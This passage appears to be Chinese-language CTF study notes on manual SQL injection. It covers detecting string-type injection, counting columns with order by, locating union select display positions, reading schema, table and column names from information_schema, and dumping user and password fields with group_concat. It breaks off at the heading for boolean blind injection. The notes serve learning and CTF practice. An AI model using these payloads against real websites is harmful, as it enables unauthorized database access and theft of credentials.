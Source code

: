 3. **加 `' and 1=2 -- ` ，URL：`name=admin’ and 1=2--  `** 

   此时sql语句为：`select * from table where name=’admin’ and 1=2 -- ’` 则会报错

如果满足以上三点，可以判断该url为**字符型**注入。



### 2、字段数量判断：`order by`

在链接后面添加语句`【 order by 11 (数字任意) 】`，根据页面返回结果，来判断站点中的字段数目。



### 3、确定字段显示位置：`union select 1,2,3,...`

**1,2,3, 根据步骤2中判断的字段数目确定**



### 4、获取当前数据库：`database()`

`union select 1,2,database(),4,...`

或：

`select schema_name from schemata` 

`select schema_name from information_schema.schemata limit 0,1` 



### 5、获取数据库中的表

`select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database();`



### 6、获取表中字段

`select column_name from information_schema.columns where TABLE_SCHEMA='sqli' and TABLE_NAME='user';`



### 7、获取字段中内容

`union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`



[返回目录](#CTF - SQL注入)

------



## SQL注入 - 盲注

### 基于布尔的盲注

#### 1、注入与注入类型判断
